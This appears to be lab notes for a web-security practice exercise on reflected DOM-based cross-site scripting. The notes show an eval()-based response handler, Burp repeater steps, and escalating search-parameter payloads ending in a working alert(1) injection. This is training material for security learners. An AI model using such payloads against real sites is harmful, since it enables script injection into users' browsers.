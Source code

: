 ```bash
Note the response has the "searchTerm" variable following the "searchResultsObj" by dot notation. Also, searchResultsObj is within eval function.
Response:

eval('var searchResultsObj = ' + this.responseText);

var searchTerm = searchResultsObj.searchTerm

Go to: HTTP history
Find:

GET /search-results?search=123456 HTTP/1.1

Send to repeater

Get:

GET /search-results?search=\"alert(1) HTTP/1.1

Response:

{"results":[],"searchTerm":"\\"alert(1)"}

Get:

GET /search-results?search=\"-alert(1)// HTTP/1.1

Response:

{"results":[],"searchTerm":"\\"-alert(1)//"}

Get:

GET /search-results?search=\"-alert(1)}// HTTP/1.1

Response:

{"results":[],"searchTerm":"\\"-alert(1)}//"}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521213123.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521213047.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521214300.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521214325.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220521214351.png)
